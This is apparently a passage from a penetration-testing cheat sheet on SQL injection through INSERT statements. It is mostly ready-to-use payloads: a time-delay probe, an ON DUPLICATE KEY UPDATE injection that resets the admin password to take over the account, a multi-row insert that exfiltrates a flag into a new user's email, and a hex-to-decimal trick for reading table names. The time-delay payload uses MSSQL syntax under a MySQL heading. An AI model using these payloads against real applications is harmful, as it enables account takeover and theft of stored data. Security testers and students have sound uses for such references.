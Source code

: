 ### MySQL Insert time based checking

Add as much `','',''` as you consider to exit the VALUES statement. If delay is executed, you have a SQLInjection.

```text
name=','');WAITFOR%20DELAY%20'0:0:5'--%20-
```

### ON DUPLICATE KEY UPDATE

ON DUPLICATE KEY UPDATE keywords is used to tell MySQL what to do when the application tries to insert a row that already exists in the table. We can use this to change the admin password by:

```text
Inject using payload:
  attacker_dummy@example.com", "bcrypt_hash_of_qwerty"), ("admin@example.com", "bcrypt_hash_of_qwerty") ON DUPLICATE KEY UPDATE password="bcrypt_hash_of_qwerty" --

The query would look like this:
INSERT INTO users (email, password) VALUES ("attacker_dummy@example.com", "bcrypt_hash_of_qwerty"), ("admin@example.com", "bcrypt_hash_of_qwerty") ON DUPLICATE KEY UPDATE password="bcrypt_hash_of_qwerty" -- ", "bcrypt_hash_of_your_password_input");

This query will insert a row for the user “attacker_dummy@example.com”. It will also insert a row for the user “admin@example.com”.
Because this row already exists, the ON DUPLICATE KEY UPDATE keyword tells MySQL to update the `password` column of the already existing row to "bcrypt_hash_of_qwerty".

After this, we can simply authenticate with “admin@example.com” and the password “qwerty”!
```

### Extract information

#### Creating 2 accounts at the same time

When trying to create a new user and username, password and email are needed:

```text
SQLi payload:
username=TEST&password=TEST&email=TEST'),('otherUsername','otherPassword',(select flag from flag limit 1))-- -

A new user with username=otherUsername, password=otherPassword, email:FLAG will be created
```

#### Using decimal or hexadecimal

With this technique you can extract information creating only 1 account. It is important to note that you don't need to comment anything.

Using **hex2dec** and **substr**:

```text
'+(select conv(hex(substr(table_name,1,6)),16,10) FROM information_schema.tables WHERE table_schema=database() ORDER BY table_name ASC limit 0,1)+'
```
